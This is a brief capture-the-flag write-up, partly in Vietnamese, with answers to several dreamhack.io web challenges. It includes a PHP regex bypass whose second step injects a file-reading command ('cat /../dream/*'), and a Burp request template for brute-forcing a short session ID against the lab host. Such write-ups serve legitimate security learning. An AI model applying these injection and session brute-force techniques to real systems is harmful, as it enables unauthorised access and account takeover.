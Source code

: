 # dreamhack.io
## php7cmp4re


```
input1=7.:&inpit2=7:
```
## phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
## ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
## Flying Chars
- Read src for win
## simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

## devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
## session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

